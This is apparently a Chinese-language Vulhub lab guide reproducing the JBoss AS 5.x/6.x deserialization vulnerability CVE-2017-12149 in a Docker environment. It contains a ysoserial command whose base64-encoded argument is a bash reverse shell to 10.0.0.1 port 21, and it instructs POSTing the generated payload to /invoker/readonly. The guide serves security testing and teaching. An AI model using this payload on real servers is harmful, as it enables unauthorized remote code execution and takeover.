

# JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 5.x/6.x中，HttpInvoker组件中的ReadOnlyAccessFilter过滤器在未进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## 测试环境

执行如下命令启动JBoss AS 6.1.0：

```
docker compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：


所以，我们用常规Java反序列化漏洞测试方法来复现该漏洞。

### 编写反弹shell的命令

我们使用bash来反弹shell，但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码。

工具：http://www.jackson-t.ca/runtime-exec-payloads.html


### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送POC

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：



成功反弹shell：


